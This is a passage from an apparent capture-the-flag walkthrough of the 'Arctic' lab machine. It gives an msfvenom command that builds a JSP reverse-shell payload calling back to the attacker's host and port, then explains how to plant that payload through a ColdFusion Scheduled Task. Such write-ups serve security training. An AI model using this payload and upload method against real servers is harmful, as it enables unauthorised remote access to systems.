 
## Establishing a Reverse Shell

First, we can use msfvenom to create a payload that spawns a reverse shell using the following command:

```powershell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.13 LPORT=4444 -f raw > shell.jsp
```

This will give us the following output on successful creation:

![Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2016.png](Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2016.png)

Next, we open a simple http server in the directory the payload is located in:

![Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2017.png](Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2017.png)

To then upload it to the machine, we have to create a Scheduled Task with the three criteria:

- Set the URL to our webserver hosting the JSP shell
- Check the box for Save output to a file
- Set File to C:\ColdFusion8\wwwroot\CFIDE\shell.jsp

![Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2018.png](Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%2018.png)
